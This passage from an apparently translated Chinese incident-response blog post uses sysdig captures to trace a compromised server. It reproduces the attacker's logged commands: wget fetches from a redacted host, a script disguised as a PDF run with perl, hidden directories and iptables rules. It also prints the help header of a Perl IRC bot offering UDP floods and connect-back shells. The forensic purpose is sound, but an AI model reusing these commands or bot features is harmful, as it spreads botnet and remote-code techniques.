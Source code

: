 我的主机产生了800MB的UDP流量——我的天哪！这简直就是活生生的DOS攻击。我猜测攻击者安装了一些僵尸网络的客户端，来生成相应的DOS流量，所以我当机立断地把服务器关了，确保它不会对其他人造成进一步的伤害。就我目前所掌握的信息可以确定服务器已经被攻陷了，我如果使用其他的监控工具也可以得出相同的结论。然而不同的是，我的S3 bucket里存储着全部的细节，所以我就可以开始深度挖掘实际发生的情况。我先使用我最爱的chisel，`spy_users`，看看恶意用户在登录之后干了些啥：

```
$ sysdig -r trace.scap.gz -c spy_users
06:11:28 root) cd /usr/sbin
06:11:30 root) mkdir .shm
06:11:32 root) cd /usr/sbin/.shm
06:11:39 root) wget xxxxxxxxx.altervista.org/l.tgz
06:11:40 root) tar zxvf l.tgz
06:11:42 root) cd /usr/sbin/.shm/lib/.muh/src
06:11:43 root) /bin/bash ./configure --enable-local
06:11:56 root) make all

```

看到这里发生了什么吗？攻击者使用了一个“聪明”的名字`.shm`，在`/usr/sbin`目录下创建了一个隐藏文件夹，然后下载程序的源代码并开始编译。我把上面URL中的文件下载下来了，发现它是个IRC bouncer Muh。在存档文件中，我发现一些类似于攻击者非常个人化的配置文件这样有趣的事物，其中包含了各种用户名密码还有一堆用于自动加入Undernet的IRC channel。他接下来做了这些事：

```
06:13:19 root) wget http://xxxxxxxxx.altervista.org/.sloboz.pdf
06:13:20 root) perl .sloboz.pdf
06:13:20 root) rm -rf .sloboz.pdf
06:12:58 root) /sbin/iptables -I INPUT -p tcp --dport 9000 -j ACCEPT
06:12:58 root) /sbin/iptables -I OUTPUT -p tcp --dport 6667 -j ACCEPT

```

Nice！一个perl脚本文件被下载成为一个隐藏的pdf文件。我很好奇想要了解更多的东西。不幸的是，当我试图访问以上的URL时，文件已经不复存在了。好吧，还有sysdig可以帮助我，因为它记录了每一个I/O操作（正如我在命令中指定的，每个操作最多记录4096字节的数据）。我就可以看到wget往文件中写了些啥：

```
$ sysdig -r trace.scap.gz -A -c echo_fds fd.filename=.sloboz.pdf
------ Write 3.89KB to /run/shm/.sloboz.pdf
#!/usr/bin/perl
####################################################################################################################
####################################################################################################################
##  Undernet Perl IrcBot v1.02012 bY DeBiL @RST Security Team   ## [ Help ] #########################################
##      Stealth MultiFunctional IrcBot Writen in Perl          #####################################################
##        Teste on every system with PERL instlled             ##  !u @system                                     ##
##                                                             ##  !u @version                                    ##
##     This is a free program used on your own risk.           ##  !u @channel                                    ##
##        Created for educational purpose only.                ##  !u @flood                                      ##
## I'm not responsible for the illegal use of this program.    ##  !u @utils                                      ##
####################################################################################################################
## [ Channel ] #################### [ Flood ] ################################## [ Utils ] #########################
####################################################################################################################
## !u !join <#channel>          ## !u @udp1 <ip> <port> <time>              ##  !su @conback <ip> <port>          ##
## !u !part <#channel>          ## !u @udp2 <ip> <packet size> <time>       ##  !u @downlod <url+path> <file>     ##
## !u !uejoin <#channel>        ## !u @udp3 <ip> <port> <time>              ##  !u @portscan <ip>                 ##
```